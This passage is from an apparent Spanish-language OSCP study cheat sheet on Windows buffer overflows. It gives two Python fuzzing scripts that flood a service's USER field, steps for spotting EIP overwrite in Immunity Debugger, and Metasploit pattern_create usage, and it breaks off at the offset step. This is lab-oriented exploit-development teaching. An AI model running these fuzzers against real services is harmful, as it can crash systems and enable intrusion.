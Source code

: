 # Apuntes de Preparación para el OSCP

![OSCP Image](http://funkyimg.com/i/2MPB4.png)
#### Penetration Testing with Kali Linux (PWK) course and Offensive Security Certified Professional (OSCP) Cheat Sheet

## Índice y Estructura Principal
- [Buffer Overflow Windows (25 puntos)](#Buffer-Overflow-Windows)

Buffer Overflow Windows
===============================================================================================================================
A continuación, se listan los pasos a seguir para la correcta explotación de Buffer Overflow en Linux (32 bits). Para la examinación, no se requieren de conocimientos avanzados de exploiting en BoF (bypassing ASLR, etc.), basta con practicar con servicios básicos y llevar esa misma metodología al examen.

Servicios/Máquinas con los que practicar:

-   SLMail 5.5 
-   Minishare 1.4.1
-   Máquina Brainpan de VulnHub
-   Los 2 binarios personalizados compartidos en la máquina Windows personal del laboratorio

Generalmente, la metodología a seguir es la siguiente:

-   Fuzzing

Para esta fase, es necesario en primer lugar identificar el campo en el que se produce el buffer overflow. Para un caso práctico, suponiendo por ejemplo que un servicio sobre un Host 192.168.1.45 corre bajo el puerto 4000 y que tras la conexión vía TELNET desde nuestra máquina, se nos solicita un campo USER a introducir, podemos elaborar el siguiente script en python con el objetivo de determinar si se produce un desbordamiento de búffer:

```python
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

buffer = ["A"]
ipAddress = sys.argv[1]

port = 4000
contador = 100

while len(buffer) < 30:
  buffer.append("A"*contador)
  contador += 200
  
for strings in buffer:
  try:
    print "Enviando %s bytes..." % len(strings)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    s.send("USER " + strings + '\r\n')
    s.recv(1024)
    s.close()
  except:
    print "\nError de conexión...\n"
    sys.exit(0)

```
De esta forma, a través de una lista, vamos almacenando en la variable **buffer** el caracter "A" un total 30 veces con un incremento para cada una de las iteraciones en 200. 

Esto es:

**[1 caracter "A", 100 caracteres "A", 300 caracteres "A", 500 caracteres "A", 700 caracteres "A", ...]**

Mientras tanto, desde _Immunity Debugger_, estando previamente sincronizados con el proceso, deberemos de utilizarlo como debugger para ver en qué momento se produce una violación de segmento.

Cuando esto ocurra, deberíamos ver como el registro **EIP** toma el valor (**41414141**), correspondiente al caracter "A" en hexadecimal.

Lo bueno de haber creado la lista, es que podemos identificar rápidamente entre qué valores se produce el Búffer Overflow, en otras palabras, si vemos que tras la ejecución de nuestro script en Python el último reporte que se hizo fue **"Enviando 700 bytes..."**, lo conveniente es modificar nuestro script al siguiente contenido:

```python
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

buffer = "A"*900
ipAddress = sys.argv[1]

port = 4000

try:
  print "Enviando búffer..."
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ipAddress, port))
  s.recv(1024)
  s.send("USER " + buffer + '\r\n')
  s.recv(1024)
  s.close()
except:
  print "\nError de conexión...\n"
  sys.exit(0)

```
Siempre para asegurar es mejor mandarle los 200 caracteres siguientes de nuestro reporte. Tras la ejecución de esta variante, **Immunity Debugger** directamente nos debería reportar la violación de segmento con el valor **41414141** en el registro **EIP**, lo cual hace que ya tengamos una aproximación de tamaño del buffer permitido.

-   Calculando el Offset [Tamaño del Búffer]

Dado que el valor 414141 para el EIP no es algo descriptivo que nos permita hacernos la idea de qué tamaño tiene el buffer permitido, lo que hacemos es aprovecharnos de las utilidades **pattern_create** y **pattern_offset** de Metasploit.

La funcionalidad **pattern_create** nos permitirá generar un puñado de caracteres aleatorios en base a una longitud fijada como criterio. 

Ejemplo:

```
bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```


